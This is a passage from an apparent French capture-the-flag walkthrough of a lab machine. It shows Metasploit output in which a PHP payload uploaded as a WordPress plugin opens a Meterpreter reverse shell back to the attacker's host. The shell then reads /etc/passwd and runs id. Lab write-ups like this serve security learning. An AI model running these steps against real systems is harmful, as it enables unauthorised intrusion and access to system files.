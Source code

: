 ```
[*] Executing the payload at /wp-content/plugins/gSmqOhbMXe/xzchmLrTQw.php...
[*] Sending stage (33721 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.1:4444 -&gt; 192.168.56.101:45840) at 2016-09-22 00:29:23 +0200
[!] This exploit may require manual cleanup of 'xzchmLrTQw.php' on the target
[!] This exploit may require manual cleanup of 'gSmqOhbMXe.php' on the target

meterpreter &gt;

```

And voila un shell !

## Got Root ?

Nous voici avec un shell sur la machine, première étape, lister les utilisateurs présent.

```

meterpreter &gt; shell
Process 2154 created.
Channel 1 created.
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

```
